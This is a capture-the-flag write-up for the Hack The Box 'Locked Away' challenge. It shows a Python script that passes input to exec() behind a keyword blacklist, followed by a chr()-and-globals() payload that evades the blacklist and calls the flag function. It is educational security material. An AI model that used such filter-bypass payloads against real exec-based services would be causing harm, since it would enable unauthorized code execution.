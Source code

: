 ```yaml
---
title: Locked Away - Hack The Box
date: 2025-01-05
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Locked Away

## Challenge Description

A test! Getting onto the team is one thing, but you must prove your skills to be chosen to represent the best of the
best. They have given you the classic - a restricted environment, devoid of functionality, and it is up to you to see
what you can do. Can you break open the chest? Do you have what it takes to bring humanity from the brink?

## Challenge Overview

The challenge provides the following Python script:

```python
banner = r'''
.____                  __              .___    _____                        
|    |    ____   ____ |  | __ ____   __| _/   /  _  \__  _  _______  ___.__.
|    |   /  _ \_/ ___\|  |/ // __ \ / __ |   /  /_\  \ \/ \/ /\__  \<   |  |
|    |__(  <_> )  \___|    <\  ___// /_/ |  /    |    \     /  / __ \\___  |
|_______ \____/ \___  >__|_ \\___  >____ |  \____|__  /\/\_/  (____  / ____|
        \/          \/     \/    \/     \/          \/             \/\/     
'''


def open_chest():
    with open('flag.txt', 'r') as f:
        print(f.read())


blacklist = [
    'import', 'os', 'sys', 'breakpoint',
    'flag', 'txt', 'read', 'eval', 'exec',
    'dir', 'print', 'subprocess', '[', ']',
    'echo', 'cat', '>', '<', '"', '\'', 'open'
]
print(banner)

while True:
    command = input('The chest lies waiting... ')

    if any(b in command for b in blacklist):
        print('Invalid command!')
        continue

    try:
        exec(command)
    except Exception as e:
        print(e)
        print('You have been locked away...')
        exit(1337)
```

### Observations

1. **Target Functionality**:  
   The `open_chest` function is the key to retrieving the flag, as it reads and prints the content of the `flag.txt`
   file. However, this function cannot be directly executed because:
    - `exec(command)` enforces a blacklist that blocks specific keywords like `open`, `flag`, `eval`, `exec`, etc.

2. **Blacklisting Mechanism**:  
   The `blacklist` array ensures that any input containing restricted words is rejected, preventing direct use of
   sensitive commands.

3. **Vulnerability**:  
   The `exec` function dynamically executes the input command, leaving it susceptible to clever bypass techniques.

## Bypassing the Blacklist

To execute `open_chest` and bypass the blacklist, we must:

1. **Avoid Using Blocked Words**:  
   Directly typing `open_chest()` is invalidated by the blacklist because `open` is restricted.

2. **Leverage `globals`**:  
   The `globals()` function returns a dictionary containing all global variables, including the `open_chest` function.
   Using `globals().get()` allows indirect access to the function without typing its name directly.

3. **Reconstruct the Function Name**:  
   Since the word `open` is restricted, we can reconstruct the string `open_chest` character by character using ASCII
   values.
    - Use the `ord` function to get the ASCII value of each character.
    - Use the `chr` function to convert ASCII values back to characters.

### Payload Construction

The following payload reconstructs `open_chest` and executes it:

```python
globals().get(chr(111) + chr(112) + chr(101) + chr(110) + chr(95) + chr(99) + chr(104) + chr(101) + chr(115) + chr(116))()
```

::: info Explanation

1. **Reconstruction**:
    - `chr(111)` converts ASCII `111` to `o`.
    - `chr(112)` converts ASCII `112` to `p`, and so on.
    - Concatenating these characters recreates the string `open_chest`.

2. **Function Retrieval**:
    - `globals().get("open_chest")` retrieves the `open_chest` function from the global namespace.

3. **Execution**:
    - Adding `()` at the end calls the function, bypassing the blacklist.

:::

## Exploitation Process

1. Connect to the challenge server using netcat:
   ```bash
   nc <ip> <port>
   ```

2. Submit the crafted payload:
   ```python
   globals().get(chr(111) + chr(112) + chr(101) + chr(110) + chr(95) + chr(99) + chr(104) + chr(101) + chr(115) + chr(116))()
   ```

3. Retrieve the flag from the server's response:
   ```plaintext
   HTB{f4k3_fLaG_f0r_t3sTiNg}
   ```

<ChallengeCard
    challengeType="misc"
    challengeName="Locked Away"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/717"
/>
